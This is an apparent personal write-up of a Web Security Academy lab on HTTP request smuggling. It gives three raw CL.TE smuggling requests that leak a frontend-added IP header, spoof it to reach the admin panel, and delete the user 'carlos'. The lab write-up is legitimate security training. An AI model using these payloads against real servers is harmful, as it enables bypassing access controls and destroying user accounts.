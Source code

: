 On this lab we need to figure it out which headers is adding the frontend when you send a request.
For this we can send a request where the second CL should be a high number, doing this we can get some information on the response. 

![[Pasted image 20250910204318.png]]

On the lab the the header is X-tewiHg-Ip
![[Pasted image 20250910204623.png]]
```
POST / HTTP/1.1
Host: 0a84008304d4d8dd83532dea00170073.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 125
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 300
Conection: close

search=test

```

When we now the header, we are able to send a request and see the admin panel

![[Pasted image 20250910204848.png]]
```
POST / HTTP/1.1
Host: 0a84008304d4d8dd83532dea00170073.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 145
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-tewiHg-Ip: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 300
Conection: close

x=1

```

Final Payload
Here there is the payload to delete "carlos" which is the objective.
```
POST / HTTP/1.1
Host: 0a84008304d4d8dd83532dea00170073.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 169
Transfer-Encoding: chunked

0

POST /admin/delete?username=carlos HTTP/1.1
X-tewiHg-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 300
Conection: close

x=1

```